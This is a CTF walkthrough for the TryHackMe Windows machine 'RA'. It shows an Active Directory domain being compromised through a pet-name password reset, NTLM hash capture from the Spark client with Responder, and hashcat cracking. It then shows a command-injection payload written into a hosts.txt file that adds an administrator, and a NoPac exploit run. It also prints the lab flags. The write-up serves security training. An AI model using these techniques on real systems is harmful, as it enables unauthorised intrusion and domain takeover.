# RA Writeup

## Machine Information

| Field | Details |
|---|---|
| **Name** | RA |
| **OS** | Windows Server 2019 |
| **Difficulty** | Hard |
| **Domain** | windcorp.thm |
| **Domain Controller** | Fire.windcorp.thm |
| **Platform** | TryHackMe |

> [!Note]
> This writeup is a complete walkthrough detailing every trial, error, and rabbit hole i encountered. enjoy..

---

## Enumeration

### Nmap

```
PORT      STATE SERVICE             VERSION
53/tcp    open  domain              Simple DNS Plus
80/tcp    open  http                Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec        Microsoft Windows Kerberos
135/tcp   open  msrpc               Microsoft Windows RPC
139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm)
443/tcp   open  ssl/https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldaps
2179/tcp  open  vmrdp
3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: windcorp.thm)
3269/tcp  open  globalcat-ldap-ssl
3389/tcp  open  ms-wbt-server       Microsoft Terminal Services
5222/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
5223/tcp  open  ssl/jabber
5229/tcp  open  jaxflow
5262/tcp  open  jabber
5263/tcp  open  ssl/jabber
5269/tcp  open  xmpp                Wildfire XMPP Client
5270/tcp  open  ssl/xmp
5275/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
5276/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0
7070/tcp  open  http                Jetty 9.4.18.v20190429 (Openfire HTTP Binding Service)
7443/tcp  open  ssl/http            Jetty 9.4.18.v20190429 (Openfire HTTP Binding Service)
7777/tcp  open  socks5
9090/tcp  open  hadoop-datanode     Apache Hadoop (Openfire Admin Console)
9091/tcp  open  ssl/hadoop-datanode Apache Hadoop (Openfire Admin Console)
9389/tcp  open  mc-nmf              .NET Message Framing
```

A lot of ports. The key observations

- **Port 80** IIS web server titled "Windcorp." this is the first thing i look at
- **Port 443** SSL cert says `Windows Admin Center`, CN `WIN-2FAA40QQ70B`
- **Port 3389** RDP cert confirms hostname `Fire.windcorp.thm`
- **Ports 5222/5223/5262/5263/5269/5270/5275/5276** Openfire XMPP/Jabber server running on `fire.windcorp.thm`
- **Ports 7070/7443/9090/9091** Openfire HTTP binding and admin console (Jetty 9.4.18)
- **Port 2179** vmrdp, a Hyper-V VM is running inside this host

SMB null auth works at the authentication level but share enumeration is denied without credentials.

```bash
nxc smb 10.49.129.54 -u '' -p ''
# SMB [+] windcorp.thm\: (Null Auth: True)

nxc smb 10.49.129.54 -u '' -p '' --shares
# [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

### Web Enumeration Port 80

Port 80 hosts a company page for Windcorp. The page lists IT staff members with profile photos. One user **Buse** is highlighted in green, suggesting a team lead role.



Running `whatweb` to harvest all email addresses embedded in the page source.

```bash
whatweb http://$target | tr ',' '\n' | grep -i fire | cut -d'@' -f1 > users.txt
```

This dumped a list including `Edeltraut`, `Edward`, `Emile`, `angrybird253`, `brownostrich284`, `buse`, `goldencat416`, `happymeercat399`, `orangegorilla428`, `organicfish718`, `organicwolf509`, `sadswan869`, `tinygoose102`, `tinywolf424`, `whiteleopard529`. I also added the names of the three staff with profile photos manually.

`ffuf` against the web root found one interesting endpoint.

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -u http://fire.windcorp.thm/FUZZ -ic -v -e .asp,.txt
```

```
[Status: 200] check.asp
[Status: 301] css
[Status: 301] img
[Status: 301] vendor
```

Checking the page source of the main page reveals a `reset.asp` endpoint linked via a JavaScript `reset()` function a self-service password reset portal.

### OSINT Dog Name in Image Endpoint

Looking at the profile photos of the three named users, one of them (`lilyle`) had a photo of herself with a dog. Opening the image in a new tab reveals the full image URL.



The URL is `http://windcorp.thm/img/lilyleAndSparky.jpg` the dog's name is **Sparky**, right there in the filename.

### Password Reset Getting lilyle

Navigating to `http://fire.windcorp.thm/reset.asp` presents a self-service password reset form. It asks for a username and a security question. The question is "What is/was your favorite pet's name?" and we just got that from the image filename.



Submitting the form resets the password and shows the new default credential.



```bash
nxc smb 10.49.129.54 -u 'lilyle' -p 'ChangeMe#1234' --pass-pol
# [+] windcorp.thm\lilyle:ChangeMe#1234
```

Valid credentials confirmed.

---

## Post-Compromise Enumeration as lilyle

### SMB Shares & GPP Privileges

```bash
nxc smb 10.49.129.54 -u 'lilyle' -p 'ChangeMe#1234' -M gpp_privileges
```

The GPP privileges scan reads the `GptTmpl.inf` from SYSVOL and shows `SeBatchLogonRight` explicitly assigned to the `IT` group meaning IT members can log on via batch scripts.



The `Shared` share is readable.

```bash
smbclient //$target/Shared -U 'lilyle%ChangeMe#1234'
```

```
smb: \> ls
  Flag 1.txt                          45  Fri May  1 22:32:36 2020
  spark_2_8_3.deb                  29526628  Sat May 30 07:45:01 2020
  spark_2_8_3.dmg                  99555201  Sun May  3 18:06:58 2020
  spark_2_8_3.exe                  78765568  Sun May  3 18:05:56 2020
  spark_2_8_3.tar.gz              123216290  Sun May  3 18:07:24 2020
```

```
Flag 1: THM{466d52dc75a277d6c3f6c6fcbc716d6b62420f48}
```

The `Shared` share is distributing **Spark 2.8.3** XMPP client installers. That's a big hint Spark 2.8.3 is vulnerable to NTLM hash capture via crafted UNC path messages.

### Vulnerability Scan

```bash
nxc smb 10.49.129.54 -u 'lilyle' -p 'ChangeMe#1234' -M zerologon
# ZEROLOGON: VULNERABLE

nxc smb 10.49.129.54 -u 'lilyle' -p 'ChangeMe#1234' -M nopac
# NOPAC: VULNERABLE
```

The DC is vulnerable to both Zerologon and NoPac. Noted for the alternative path later, continuing with the intended route first.

### BloodHound

```bash
bloodyad -d windcorp.thm -u 'lilyle' -p 'ChangeMe#1234' --host $target get bloodhound
```





The full Domain Admins group membership view is interesting `vivimull78` is a member of `CERT READER` > `CERT OWNER` > Domain Admins chain. More importantly for now, the graph shows `buse` is in `IT` and has `Account Operators` group membership, meaning she can reset passwords for non-admin domain users.



---

## Initial Foothold

### Spark XMPP Capturing buse's Hash

Spark 2.8.3 automatically tries to authenticate via NTLM when it receives a message containing a UNC path (`\\attacker-ip\share`). The steps

1. Install Spark 2.8.3 from the downloaded `.deb`
2. Log in to the Openfire server at `fire.windcorp.thm` with `lilyle:ChangeMe#1234`
3. Start `responder` on the attacker machine
4. Send `buse` a direct message containing a UNC path pointing at our IP

```bash
sudo dpkg -i --ignore-depends=openjdk-8-jre,oracle-java8-jre spark_2_8_3.deb
java -jar /usr/share/spark/lib/startup.jar
```





Once the message is sent, Spark on `buse`'s machine tries to authenticate to our fake share.

```bash
sudo responder -I tun0
```



```
[SMB] NTLMv2-SSP Hash : buse::WINDCORP:aad3b435b51404ee:<HASH>
```

Crack the hash with hashcat.

```bash
hashcat -m 5600 buse.hash /usr/share/wordlists/rockyou.txt
```

```
buse::WINDCORP:...: uzunLM+3131
```

Password cracked: `uzunLM+3131`.

### WinRM as buse

```bash
nxc winrm 10.49.152.34 -u buse -p 'uzunLM+3131'
# [+] windcorp.thm\buse:uzunLM+3131 (Pwn3d!)

evil-winrm -i 10.49.152.34 -u buse -p 'uzunLM+3131'
```

```
*Evil-WinRM* PS C:\Users\buse\Desktop> type "Flag 2.txt"
THM{6f690fc72b9ae8dc25a24a104ed804ad06c7c9b1}
```

Flag 2 captured.

### Privileges and Group Membership

```powershell
whoami /all
```

```
User: windcorp\buse  SID: S-1-5-21-555431066-3599073733-176599750-5777

Groups:
  BUILTIN\Account Operators
  WINDCORP\IT

Privileges:
  SeMachineAccountPrivilege   Enabled
  SeChangeNotifyPrivilege     Enabled
  SeIncreaseWorkingSetPrivilege Enabled
```

`buse` is in `Account Operators` this group can reset passwords for most domain users. `SeMachineAccountPrivilege` lets us add computer accounts to the domain.

---

## Privilege Escalation

### Finding the Vulnerable Script

Searching for scripts on disk.

```powershell
Get-ChildItem -Path C:\scripts -Include *.bak,*.ps1 -Recurse -ErrorAction SilentlyContinue |
  Select-Object FullName, Length, LastWriteTime
```

```
FullName                       Length  LastWriteTime
--------                       ------  -------------
C:\scripts\checkservers.ps1    4119    5/3/2020 5:53:16 AM
```

Reading `checkservers.ps1`.

```powershell
$notificationto = "brittanycr@windcorp.thm"
$notificationfrom = "admin@windcorp.thm"
$smtpserver = "relay.windcorp.thm"

# Read the hosts file every cycle
get-content "C:\Users\brittanycr\hosts.txt" | Where-Object {!($_ -match "#")} |
ForEach-Object {
    $p = Test-Connection -ComputerName $_ -Count 1 -ea silentlycontinue
    Invoke-Expression $p    # <-- Command injection here
    ...
}
```

The script reads `C:\Users\brittanycr\hosts.txt` and passes each line into **`Invoke-Expression`** direct command injection sink. The script is owned by `BUILTIN\Administrators` so we can't modify it, but we **can** control its input file if we get access to `brittanycr`'s home directory.

### Resetting brittanycr's Password

```powershell
Get-ADUser brittanycr -Properties *
```

```
PasswordExpired : True
MemberOf        : {}
```

`brittanycr` has an expired password and no admin group memberships a safe target for `Account Operators` to reset.

```powershell
net user brittanycr P@ssw0rd123!
# The command completed successfully.
```

### Injecting into hosts.txt

`brittanycr` has READ access to the `Users` share, which maps to `C:\Users`. Browse to her home directory.

```bash
smbclient //$target/Users -U 'brittanycr%P@ssw0rd123!'
```

```
smb: \> cd brittanycr
smb: \brittanycr\> dir
  hosts.txt    22  Sun May  3 20:44:57 2020

smb: \brittanycr\> get hosts.txt
```

```
google.com
cisco.com
```

Replace the content with a command injection payload. Since each line is passed to `Invoke-Expression`, putting a PowerShell command there executes it in the context of the scheduled task runner.

```bash
echo '; net user redteamer P@ssw0rd123! /add;net localgroup Administrators redteamer /add' > hosts.txt

smbclient //$target/Users -U 'brittanycr%P@ssw0rd123!' \
  -c 'cd brittanycr; put hosts.txt'
```

Wait for the scheduled task to trigger (~45 seconds based on `$SleepTimeOut` in the script), then verify.

```bash
nxc smb $target -u redteamer -p 'P@ssw0rd123!'
# [+] windcorp.thm\redteamer:P@ssw0rd123! (Pwn3d!)
```



### Root Flag

```bash
evil-winrm -i 10.49.152.34 -u redteamer -p 'P@ssw0rd123!'
```

```powershell
*Evil-WinRM* PS C:\Users\redteamer\Desktop> cd ..\..\Administrator\Desktop

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type Flag3.txt
THM{ba3a2bff2e535b514ad760c283890faae54ac2ef}
```

Domain compromised.

---

## Alternative Path NoPac (CVE-2021-42278 / CVE-2021-42287)

The machine is also vulnerable to **NoPac** (sam-the-admin). This bypasses the entire Spark > buse > brittanycr chain and goes straight from `lilyle` to Administrator in one shot.

```bash
python3 sam_the_admin.py 'windcorp.thm/lilyle:ChangeMe#1234' -dc-ip 10.49.152.34
```

```
[*] Selected Target: fire.windcorp.thm
[*] Total Domain Admins: 2
[*] Will try to impersonate: Administrator
[*] Current ms-DS-MachineAccountQuota = 10
[*] Adding Computer Account SAMTHEADMIN-87$
[*] SAMTHEADMIN-87$ sAMAccountName == fire
[*] Saving ticket in fire.ccache
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*] Saving ticket in Administrator.ccache
[$] KRB5CCNAME='Administrator.ccache' \
    impacket-smbexec -target-ip 10.49.152.34 -dc-ip 10.49.152.34 \
    -k -no-pass @'fire.windcorp.thm'
```



It works because the DC runs an unpatched build (17763) combining CVE-2021-42278 (machine account name spoofing) and CVE-2021-42287 (PAC bypass) to impersonate a Domain Admin via S4U2self.

---

## Lessons Learned

**Always read what's being served on SMB shares.** The `Shared` share was distributing Spark 2.8.3 installers to everyone in the domain. That's the intended foothold signal they're telling you what client the users are running.

**OSINT scope includes image filenames.** The profile photo URL `lilyleAndSparky.jpg` leaked the pet's name directly. Anything the web server serves is in scope, including asset filenames.

**`Invoke-Expression` on file input is always injectable.** `checkservers.ps1` read a user-controlled file and passed each line directly into `Invoke-Expression`. Anytime a script reads external data and executes it, look for a path to control that data source. Here: `Account Operators` > reset `brittanycr` > write `hosts.txt` > SYSTEM-level code execution.

**Vulnerability scanners save time.** Running `nxc -M zerologon` and `nxc -M nopac` early flagged two unpatched CVEs. Even if the intended path is more interesting, knowing the shortcuts exist matters for real engagements.

**NoPac is a one-liner from any domain user.** If `ms-DS-MachineAccountQuota > 0` and the DC is unpatched, any authenticated domain user can reach DA. Patch your DCs.

---

## Tools & References

| Tool | Purpose |
|---|---|
| **nmap** | Port scanning & service enumeration |
| **nxc (NetExec)** | SMB enumeration, share access, vulnerability modules (zerologon, nopac, gpp_privileges) |
| **ffuf** | Web content discovery |
| **whatweb** | Passive email harvesting from web pages |
| **bloodyad** | BloodHound collection, writable attribute enumeration |
| **BloodHound CE** | Active Directory attack path visualization |
| **Spark 2.8.3** | XMPP client used to trigger NTLM hash capture via UNC path message |
| **Responder** | NTLM hash capture over SMB |
| **hashcat** | NTLMv2 hash cracking |
| **smbclient** | Share browsing and file upload/download |
| **evil-winrm** | WinRM shell |
| **sam_the_admin** | NoPac exploit (CVE-2021-42278 + CVE-2021-42287) |

**References**
- [Spark 2.8.3 UNC Path NTLM Leak CVE-2020-12772](https://github.com/theart42/cves/blob/master/cve-2020-12772/CVE-2020-12772.md)
- [NoPac / sam-the-admin](https://github.com/Ridter/noPac)
- [Account Operators Abuse HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#account-operators)
